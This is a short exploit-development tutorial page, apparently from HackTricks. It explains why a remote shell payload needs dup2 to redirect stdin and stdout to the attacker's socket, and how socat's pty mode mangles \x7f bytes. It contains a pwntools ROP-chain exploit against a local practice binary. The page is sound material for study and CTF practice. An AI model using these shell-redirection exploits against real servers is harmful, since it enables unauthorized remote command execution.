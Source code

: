 # Common Exploiting Problems

{{#include ../banners/hacktricks-training.md}}

## FDs in Remote Exploitation

When sending an exploit to a remote server that calls **`system('/bin/sh')`** for example, this will be executed in the server process ofc, and `/bin/sh` will expect input from stdin (FD: `0`) and will print the output in stdout and stderr (FDs `1` and `2`). So the attacker won't be able to interact with the shell.

A way to fix this is to suppose that when the server started it created the **FD number `3`** (for listening) and that then, your connection is going to be in the **FD number `4`**. Therefore, it's possible to use the syscall **`dup2`** to duplicate the stdin (FD 0) and the stdout (FD 1) in the FD 4 (the one of the connection of the attacker) so it'll make feasible to contact the shell once it's executed.

[**Exploit example from here**](https://ir0nstone.gitbook.io/notes/types/stack/exploiting-over-sockets/exploit):

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = remote('localhost', 9001)

rop = ROP(elf)
rop.raw('A' * 40)
rop.dup2(4, 0)
rop.dup2(4, 1)
rop.win()

p.sendline(rop.chain())
p.recvuntil('Thanks!\x00')
p.interactive()
```

## Socat & pty

Note that socat already transfers **`stdin`** and **`stdout`** to the socket. However, the `pty` mode **include DELETE characters**. So, if you send a `\x7f` ( `DELETE` -)it will **delete the previous character** of your exploit.

In order to bypass this the **escape character `\x16` must be prepended to any `\x7f` sent.**

**Here you can** [**find an example of this behaviour**](https://ir0nstone.gitbook.io/hackthebox/challenges/pwn/dream-diary-chapter-1/unlink-exploit)**.**

{{#include ../banners/hacktricks-training.md}}
